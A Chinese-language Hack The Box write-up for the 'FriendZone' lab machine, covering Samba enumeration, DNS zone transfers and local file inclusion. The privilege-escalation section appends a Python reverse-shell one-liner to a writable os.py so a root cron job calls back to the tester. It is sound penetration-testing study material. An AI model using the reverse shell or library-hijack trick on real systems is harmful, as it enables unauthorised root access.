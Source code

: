 ```yaml
---
title: FriendZone Writeup
date: 2020-12-02 04:40:10
category: Hack The Box
---
```


# FriendZone Writeup

![](./0.png)

## 0x00 TODO

`LinEnum.sh` 脚本补一个 `查询全局可写脚本文件`，对于个别提权场景有用。

## 0x01 信息收集

![](./1.png)

## 0x02 枚举
我去啊，这些个端口的服务查了一遍下来没有公开漏洞。

samba 匿名登录，找到一个 creds.txt - admin 密码。

![](./3.png)

![](./4.png)


目前收集了一个看似 admin 的密码，没有找到其他有效的突破口，观察 nmap 扫描结果发现 `80` 和 `443` 似乎有不同页面，可能是通过解析域名来做的。
根据主页的信息，得到一个域名 `friendzoneportal.red`，本质本地解析，打开了一个新页面。

![](./5.png)
继续添加 `friendzone.red` 解析，发现另一个页面。

![](./6.png)
![](./7.png)
可能还有更多的子域名，用 `dig` 从靶机地址反查域名。
``` bash
dig axfr @10.10.10.123 friendzone.red
dig axfr @10.10.10.123 friendzoneportal.red
```
![](./8.png)

处理一下结果获得缓存域，全部加入本地解析。
``` bash
cat fzt | grep IN | awk '{print $1}' | sed 's/\.$//g' | sort -u > hosts # awk 默认按 tab/space 分割，cut 默认按 tab 
$ vi hosts
admin.friendzoneportal.red 
administrator1.friendzone.red 
files.friendzoneportal.red 
friendzoneportal.red
friendzone.red
hr.friendzone.red
imports.friendzoneportal.red 
uploads.friendzone.red
vpn.friendzoneportal.red 
:%s/\n/ /g
```
![](./9.png)
新的突破口出现。

本地文件包含。

## 0x03 立足点

![](./12.png)

## 0x04 提权

### 1、SUID
suid exim4 4.90.1 不行。

![](./12.1.png)
![](./12.2.png)
### 2、Sudo
friend - sudo su（/home/friend/.sudo_as_admin_successful）不行。

![](./14.png)
### 3、Crontab
pspy 监控定时任务，发现执行了一个 `python` 脚本。

![](./13.png)
但是查看权限发现不可写，再查看下内容，主要代码逻辑是注释掉的。

![](./15.png)
脚本里 `import os`。**脚本不可写，导入的库却不一定**，`locate os.py` 定位库文件，查看一下权限，是可写的。

![](./16.png)
向 `/usr/lib/python2.7/os.py` 追加 python 反弹 shell 代码。
``` bash
echo 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",4445));dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> /usr/lib/python2.7/os.py
```
![](./17.png)
本地开启监听 `nc -lnvp 4445`，等待定时任务启动，获得 root shell。

![](./18.png)

## 0x05 攻击节点

## 0x06 学到什么 
